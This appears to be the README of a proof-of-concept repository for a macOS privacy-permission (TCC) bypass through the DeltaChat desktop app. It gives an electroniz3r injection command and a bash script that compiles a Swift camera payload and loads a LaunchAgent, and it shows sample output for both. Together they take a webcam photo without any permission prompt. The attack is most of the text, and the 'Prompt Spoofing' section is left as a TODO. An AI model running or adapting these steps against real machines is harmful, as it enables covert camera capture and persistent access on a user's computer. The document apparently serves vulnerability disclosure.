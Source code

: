# Exploitation

Showing a few ways to exploit this vulnerability, also showing a "new" vulnerability/technique with TCC that _can_ be useful for tricking a user for more TCC rights, e.g. full disk access or any other TCC rights. 

>**Note:** When running this proof-of-concept, the Terminal app does not need a prompt for camera access. This is because the camera permission is granted to DeltaChat, and the injected code inherits those permissions, effectively bypassing macOS TCC restrictions.

### Automated 

Run the following from Terminal using [electroniz3r](https://github.com/r3ggi/electroniz3r)

```sh
electroniz3r inject /Applications/DeltaChat.app/ --predefined-script takeSelfie
```

Sample output:
```sh
/Applications/DeltaChat.app/ started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/56264727-4473-4393-b712-7e24c65a1c71
Check /tmp/selfie.jpg
```

Confirm the result by running:
```sh
open /tmp/selfie.jpg
```

<img width="1502" height="470" alt="poc-delta" src="https://github.com/user-attachments/assets/6bcc6604-8707-4924-89c8-2d8985aab39e" />

A picture is taken using the system webcam, without Terminal having any camera access this demonstrates a successful TCC bypass.

### Manual 

Clone the repository and then execute the bash script, the bash script autoexploits the TCC Bypass, creating a selfie without triggering a new TCC prompt.
```sh
bash deltachat_camera_bypass.sh
# or
chmod +x deltachat_camera_bypass.sh && ./deltachat_camera_bypass.sh
```

Example output:
```sh
kunpeeks@MacBook-Pro-van-Kun 1 % ./deltachat_camera_bypass.sh
[*] Step 1: Write Swift camera payload to /tmp/selfie_payload.swift
[*] Step 2: Compile Swift payload to /Users/kunpeeks/Desktop/selfie
[*] Step 3: Create LaunchAgent plist at /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.camera.plist
[*] Step 4: Load LaunchAgent and trigger DeltaChat
[*] Waiting 5 seconds for selfie to complete...
[*] Checking selfie result:
[+] Selfie saved at /tmp/selfie.jpg
```


### Prompt Spoofing

TODO: xxx

